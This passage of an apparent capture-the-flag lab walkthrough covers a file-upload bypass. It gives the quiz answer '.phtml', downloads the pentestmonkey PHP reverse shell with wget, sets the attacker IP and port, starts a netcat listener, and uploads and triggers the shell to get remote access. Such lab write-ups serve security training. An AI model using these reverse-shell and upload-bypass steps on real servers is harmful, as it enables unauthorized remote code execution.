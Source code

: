   <img src="/images/vulnv/vuln9.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

### Q2: What extension is allowed after running the above exercise?

#### Answer: .phtml

Now we need to install the reverse shell script

```bash
wget https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
```
change the extension for this file to .phtml
change the IP address in the script to our kali machine IP and listening port

$ip = ‘Kali_IP’;
$port = 1234;

  <img src="/images/vulnv/vuln10.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />

Now before uploading this shell-script to the website we need to start listening on the port we defined earlier
```bash
nc -lvnp 1234
```
Upload the file to the website, then navigate to this URL :
```
http://[Machine_IP]:3333/internal/uploads/php-reverse-shell.phtml
```
Now we will see that the shell has popped in our netcat listner
  <img src="/images/vulnv/vuln11.png" alt="Securinets" style="width: auto; height: auto; margin-right: 10%;" />
```bash
ls 
cd home
ls
```